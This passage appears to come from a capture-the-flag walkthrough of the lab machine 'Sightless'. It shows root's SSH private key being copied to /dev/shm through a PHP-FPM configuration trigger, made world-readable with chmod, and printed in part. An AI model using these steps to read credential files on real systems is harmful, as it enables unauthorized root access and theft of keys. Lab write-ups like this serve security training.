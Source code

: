 ![](/assets/obsidian/41de3e6c2a8561f1c465cdba5ffe1ac7.png)

After a while, root's ssh private key was copied, but I don't have permission to view it

```bash
michael@sightless:~$ ls -latr /dev/shm/
total 4
drwxr-xr-x 20 root root 4020 Oct  3 21:18 ..
-rw-------  1 root root 3381 Oct  4 01:10 id_rsa
drwxrwxrwt  2 root root   60 Oct  4 01:10 .
```

Re-do the process again but change the command

- Command : `chmod 666 /dev/shm/id_rsa`

![](/assets/obsidian/2bc98af5e6e43af9a2f95c09a343cc08.png)

Switch the `PHP-FPM` config back to `System default` then back to `test` in order to trigger it

![](/assets/obsidian/983c4243dc9d31d1afd83620d88e38e0.png)

![](/assets/obsidian/9f6ac1400153f52778f7995076de6af7.png)

```bash
michael@sightless:~$ ls -latr /dev/shm
total 4
drwxr-xr-x 20 root root 4020 Oct  4 01:22 ..
-rw-rw-rw-  1 root root 3381 Oct  4 01:30 id_rsa
drwxrwxrwt  2 root root   60 Oct  4 01:30 .
michael@sightless:~$ cat /dev/shm/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAvTD30GGuaP9aLJaeV9Na4xQ3UBzYis5OhC6FzdQN0jxEUdl6V31q
lXlLFVw4Z54A5VeyQ928EeForZMq1FQeFza+doOuGWIId9QjyMTYn7p+1yVilp56jOm4DK
4ZKZbpayoA+jy5bHuHINgh7AkxSeNQIRvKznZAt4b7+ToukN5mIj6w/FQ7hgjQarpuYrox
Y8ykJIBow5RKpUXiC07rHrPaXJLA61gxgZr8mheeahfvrUlodGhrUmvfrWBdBoDBI73hvq
Vcb989J8hXKk6wLaLnEaPjL2ZWlk5yPrSBziW6zta3cgtXY/C5NiR5fljitAPGtRUwxNSk
fP8rXekiD+ph5y4mstcd26+lz4EJgJQkvdZSfnwIvKtdKvEoLlw9HOUiKmogqHdbdWt5Pp
nFPXkoNWdxoYUmrqHUasD0FaFrdGnZYVs1fdnnf4CHIyGC5A7GLmjPcTcFY1TeZ/BY1eoZ
Ln7/XK4WBrkO4QqMoY0og2ZLqg7mWBvb2yXLv/d1vbFb2uCraZqmSo4kcR9z9Jv3VlR3Fy
9HtIASjMbTj5bEDIjnm54mmglLI5+09V0zcZm9GEckhoIJnSdCJSnCLxFyOHjRzIv+DVAN
ajxu5nlaGbiEyH4k0FGjjzJKxn+Gb+N5b2M1O3lS56SM5E18+4vT+k6hibNJIsApk4yYuO
UAAAdIx7xPAMe8TwAAAAAHc3NoLXJzYQAAAgEAvTD30GGuaP9aLJaeV9Na4xQ3UBzYis5O
hC6FzdQN0jxEUdl6V31qlXlLFVw4Z54A5VeyQ928EeForZMq1FQeFza+doOuGWIId9QjyM
TYn7p+1yVilp56jOm4DK4ZKZbpayoA+jy5bHuHINgh7AkxSeNQIRvKznZAt4b7+ToukN5m
```